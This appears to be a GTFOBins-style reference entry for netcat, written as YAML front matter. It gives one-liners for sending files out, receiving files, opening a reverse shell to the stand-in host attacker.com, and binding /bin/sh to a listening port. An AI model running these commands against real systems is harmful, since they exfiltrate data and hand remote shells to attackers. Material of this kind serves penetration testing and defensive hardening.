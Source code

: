 ```yaml
---
functions:
  upload:
    - description: |
        Send a file to a TCP port. Run `nc -l -p 12345 > "where_to_save"` on the attacker box to collect the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        nc $RHOST $RPORT < "$LFILE"
  download:
    - description: Fetch remote file from a remote TCP port. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file.
      code: |-
        LPORT=12345
        LFILE=where_to_save
        nc -l -p $LPORT > "$LFILE"
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        nc -e /bin/sh $RHOST $RPORT
  bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        nc -l -p $LPORT -e /bin/sh
---
```

